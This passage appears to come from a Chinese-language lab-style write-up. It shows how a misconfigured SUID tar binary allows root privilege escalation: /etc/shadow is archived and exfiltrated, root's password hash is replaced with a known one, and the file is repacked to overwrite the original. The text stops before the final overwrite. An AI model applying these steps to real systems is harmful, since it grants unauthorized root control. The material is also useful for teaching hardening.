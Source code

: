 ![image-20200306153354571](README.assets/image-20200306153354571.png)

其中有一个`/usr/bin/tar`本来不应为SUID的程序，但是可能由于管理员的疏忽，将其设置为SUID程序了。可以使用`tar`命令来进行提权。

`tar`提权基本思路是改写`/etc/shadow`文件。

由于其可以按照root用户身份运行，将`/etc/shadow`文件打包，下载至本地，在本地将其中密码字段进行替换，更改为已知的加密密码，并打包。传回服务器，使用`tar`解包覆盖`/etc/shadow`文件，即可修改root密码，获得root权限。

1. 打包`/etc/shadow`

```
tar zcf /tmp/a.tgz /etc/shadow
```

将`a.tgz`下载回本地。存放在`/tmp`目录下。

```
tar zxf a.tgz
```

解包后，文件存在于`/tmp/etc/shadow`

其中原始数据为：

```
root:$6$/KoPexQp$dfAojbpUkSnwLd.ejZVqbaCxNwEAkbucO57MFEkLBEuTQs14FTnYn4czN05m4mHjBzEbpnMIq2O04SzQ4wwhj/:18327:0:99999:7:::
```



2. 修改密码

本地随便添加一个用户，设置密码为`123`，数据如下：

```
temp:$6$SPhaESjTfxMdrq9B$PF1yOIqSZDS5AE1tOin0kC43NoJf/J9HhbPri6/BSmQVMzmBAvggKvIhZSZyWRcveWohh6tJ4rn5/GMW3QGJK0:18268:0:99999:7:::
```

将其中第二段数据`$6$SPhaESjTfxMdrq9B$PF1yOIqSZDS5AE1tOin0kC43NoJf/J9HhbPri6/BSmQVMzmBAvggKvIhZSZyWRcveWohh6tJ4rn5/GMW3QGJK0`覆盖到`/tmp/etc/shadow`文件中，即：

```
root:$6$SPhaESjTfxMdrq9B$PF1yOIqSZDS5AE1tOin0kC43NoJf/J9HhbPri6/BSmQVMzmBAvggKvIhZSZyWRcveWohh6tJ4rn5/GMW3QGJK0:18327:0:99999:7:::
```

保存后，本地使用`tar`再打包。

```
cd /tmp
sudo tar zcf b.tgz etc
```
